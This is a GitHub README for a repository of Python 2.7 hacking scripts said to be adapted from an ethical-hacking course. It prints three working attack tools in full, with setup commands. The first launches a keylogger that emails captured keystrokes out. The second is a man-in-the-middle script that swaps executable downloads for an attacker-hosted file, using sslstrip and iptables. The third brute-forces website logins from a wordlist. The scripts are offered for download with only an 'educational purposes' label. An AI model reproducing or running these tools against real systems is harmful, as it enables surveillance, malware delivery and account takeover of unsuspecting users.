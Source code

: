 [![Basic-Hacking-Scripts Reverse_Backdoor](https://user-images.githubusercontent.com/36347727/60137772-dce08d80-975c-11e9-941a-ae7db18ace40.png)](https://github.com/HarryCha777/Basic-Hacking-Scripts/blob/master/Malware/Listener.py)

# Hacking-Scripts

These are basic hacking scripts written in Python 2.7 for educational purposes only.

Although I personally wrote, modified, and commented on all these scripts in attempt to improve their intelligibility, the majority of these scripts are based on the [Udemy course "Learn Python & Ethical Hacking From Scratch" by Zaid Sabih.](https://www.udemy.com/learn-python-and-ethical-hacking-from-scratch)

### Malware
This folder has tools that spy on and manipulates other computers.

Example:
```javascript
# Keylogger Via Email
# This calls Keylogger Via Email Class script.

#!/use/bin/env python
import Keylogger_Via_Email_Class, optparse

def get_arguments():
    parser = optparse.OptionParser()
    parser.add_option("-e", "--email", dest="email", help="Email address to send keystrokes")
    parser.add_option("-p", "--password", dest="password", help="Password to the email address")
    (options, arguments) = parser.parse_args()
    if not options.email:
        parser.error("[-] Please specify an email address to send keystrokes. Use --help for more info.")
    if not options.password:
        parser.error("[-] Please specify the password to the email address. Use --help for more info.")
    return options

options = get_arguments()
my_keylogger = Keylogger_Via_Email_Class.Keylogger(120, options.email, options.password)
my_keylogger.start()

'''
pip install pynput
https://www.udemy.com/learn-python-and-ethical-hacking-from-scratch/learn/v4/t/lecture/10525120?start=0 (Logging Key-strikes and Reporting Them By Email)
'''
```
---

### Man-in-the-Middle (MITM)
This folder has tools that attack while being positioned inbetween 2 parties, tools that help accomplish such attacks, and tools that help prevent such attacks.

Example:
```javascript
# EXE Download Replacer

#!/use/bin/env python
import netfilterqueue
import scapy.all as scapy

ack_list = []

def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum
    return packet

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        if scapy_packet[scapy.TCP].dport == 10000:
            if ".exe" in scapy_packet[scapy.Raw].load and "10.0.2.13" not in scapy_packet[scapy.Raw].load:
                print("[+] exe Request")
                ack_list.append(scapy_packet[scapy.TCP].ack)
        elif scapy_packet[scapy.TCP].sport == 10000:
            if scapy_packet[scapy.TCP].seq in ack_list:
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file...")
                modified_packet = set_load(scapy_packet, "HTTP/1.1 301 Moved Permanently\nLocation: http://10.0.2.13/replaced.exe\n")
                packet.set_payload(str(modified_packet))
    packet.accept()

queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()

'''
service apache2 start    # Starting webserver necessary.
sslstrip    # Keep it running. This and one below commmands enable this program to work with HTTPS.
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
iptables -I FORWARD -j NFQUEUE --queue-num 0    # FORWARD is name of chain that packets from other computers go through. Use INPUT and OUTPUT for your own computer.
iptables --flush    # After finishing this program, remove iptables.
https://www.udemy.com/learn-python-and-ethical-hacking-from-scratch/learn/v4/t/lecture/10276338?start=0 (Intercepting & Replacing Downloads on The Network)
https://www.udemy.com/learn-python-and-ethical-hacking-from-scratch/learn/v4/t/lecture/10255564?start=15 (Replacing Downloads on HTTPS Pages)
'''
```
---

### Website
This folder has tools that gather information about websites to help determine their weaknesses and tools that crack login pages.

Example:
```javascript
# Login Cracker

#!/use/bin/env python
import requests, optparse

def get_arguments():
    parser = optparse.OptionParser()
    parser.add_option("-u", "--url", dest="url", help="URL of site\'s login page (Ex.: http://10.0.2.13/dvwa/login.php)")
    parser.add_option("-w", "--wordlist", dest="wordlist", help="Path to wordlist")
    (options, arguments) = parser.parse_args()
    if not options.url:
        parser.error("[-] Please specify the URL of site\'s login page (Ex.: http://10.0.2.13/dvwa/login.php). Use --help for more info.")
    if not options.wordlist:
        parser.error("[-] Please specify a path to wordlist. Use --help for more info.")
    return options

options = get_arguments()
target_url = options.url
data_dict = {"username": "admin", "password": "", "Login": "submit"}

with open(options.wordlist, "r") as wordlist_file:
    for line in wordlist_file:
        word = line.strip()
        data_dict["password"] = word
        response = requests.post(target_url, data=data_dict)
        if "Login failed" not in response.content:
            print("[+] Got the password --> " + word)
            exit()
print("[+] Reached end of line.")

'''
https://www.udemy.com/learn-python-and-ethical-hacking-from-scratch/learn/v4/t/lecture/10666162?start=0 (Guessing Login Information on Login Pages)
'''
```
---

# Installation and Setup
Simply download the Python scripts you would like to run and read the comments below each script to see the codes required to run before executing the scripts. For example, ARP_Spoofer.py needs to be executed after running "echo 1 > /proc/sys/net/ipv4/ip_forward", which is commented below the script.

Also, some Python scripts need another Python script to be executed. For example, Vulnerability_Scanner.py needs to be executed along with Vulnerability_Scanner_Class.py, which is commented on the 2nd line of the script.

# Contact
Please reach out to me through this email address:    harrycha777@gmail.com

# License
This project is under no license.
